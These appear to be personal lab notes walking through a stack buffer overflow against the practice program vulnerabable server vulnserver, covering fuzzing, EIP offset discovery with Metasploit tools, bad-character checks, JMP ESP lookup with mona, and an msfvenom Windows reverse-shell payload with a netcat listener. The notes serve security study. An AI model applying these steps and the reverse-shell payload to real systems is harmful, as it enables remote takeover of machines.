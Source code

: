 > [!caution] This page contained a drawing which was not converted.   

![Exported image](Exported%20image%2020241208212440-0.png)

**Spiking****-**sending a bunch of random characters to a program to see if you can break it.  
**Ex script****:**
 
```
s_readline();  
s_string("STATS ");  
s_string_variable("0");

Want to control the EIP value  
The x86 processor maintains an instruction pointer (EIP) register that is a 32-bit value indicating the location in memory where the current instruction starts. 

Want to control the EIP value

msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.15 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"
EXITFUNC=thread (makes exploit more stable)
-f (for file type) ; export this into c
-a (for architecture) ; x86
-b (for bad characters) "\x00" 
Resulting payload. Copy Pasta into the python script.

Set up netcat listener (based on msfvenom exploit)
Next run vulnserver.exe as administrator. Don't need immunity.

```
 ![Exported image](Exported%20image%2020241208212444-1.png)  
![Exported image](Exported%20image%2020241208212444-2.png)  
![Exported image](Exported%20image%2020241208212445-3.png)  

**Part 1: Finding the offset:**  
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
 ![Exported image](Exported%20image%2020241208212446-4.png)

Want to control the EIP value  
**The x86 processor maintains an instruction pointer** **(EIP)** **register that is a 32-bit value indicating the location in memory where the current instruction starts.**

**Part 2: Finding the offset:**  
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337
 ![Exported image](Exported%20image%2020241208212446-5.png)

Want to control the EIP value

![Exported image](Exported%20image%2020241208212447-6.png) ![Exported image](Exported%20image%2020241208212448-7.png)

**Notice: Exact offset is 2003 (In other words, think if you send 2003 "A's" and then 4 "B's" the 4 B's would overwrite the EIP register. This means we control the program.**
 
# Overwriting EIP:

**Run this Script:**
 ![Exported image](Exported%20image%2020241208212452-8.png)  

**Program response: (EIP variable is just the 4 B's we sent because the EBP variable was overflowing with AAAAAAAA)**

![Exported image](Exported%20image%2020241208212453-9.png)  

Finding Bad Characters:
 
# **Resource:** [https://github.com/cytopia/badchars](https://github.com/cytopia/badchars)
 
What are Bad Characters?
 
Characters such as \r , \n , / and ? can cause the line that's being parsed to truncate prematurely and fail to overflow the buffer, or lead to a 404 error instead of calling the vulnerable function. Characters being converted between upper and lower case is another example that will mess with shell code.
 ![Exported image](Exported%20image%2020241208212453-10.png)  

Run bad characters > In immunity debugger right click the ESP value > follow in dump.
 ![Exported image](Exported%20image%2020241208212454-11.png)  

Example:

![Exported image](Exported%20image%2020241208212455-12.png)  

Import mona.py into immunity debugger and call the module with !mona modules

![Exported image](Exported%20image%2020241208212456-13.png)  

Back in Kali: start nasm shell to look for "opt code equivalent"

![Exported image](Exported%20image%2020241208212457-14.png)  

nasm > JMP ESP

![Exported image](Exported%20image%2020241208212501-15.png)  
![Exported image](Exported%20image%2020241208212501-16.png)

Results after running

![Exported image](Exported%20image%2020241208212502-17.png)  
![Exported image](Exported%20image%2020241208212502-18.png)

Set a breakpoint by hitting (alt + F2)-so that we can overwrite the EAP.
 
Run findtherightmodule.py script & notice the result:

![Exported image](Exported%20image%2020241208212504-19.png)

We hit the breakpoint and overode the EIP value:

![Exported image](Exported%20image%2020241208212504-20.png)

Now just need to write the shell code!
 
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.15 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"

- EXITFUNC=thread (makes exploit more stable)
- -f (for file type) ; export this into c
- -a (for architecture) ; x86
- -b (for bad characters) "\x00"

Resulting payload. Copy Pasta into the python script.

![Exported image](Exported%20image%2020241208212505-21.png)   ![Exported image](Exported%20image%2020241208212509-22.png)  

Set up netcat listener (based on msfvenom exploit)

![Exported image](Exported%20image%2020241208212510-23.png)

Next run vulnserver.exe as administrator. Don't need immunity.
 
Note: Payload size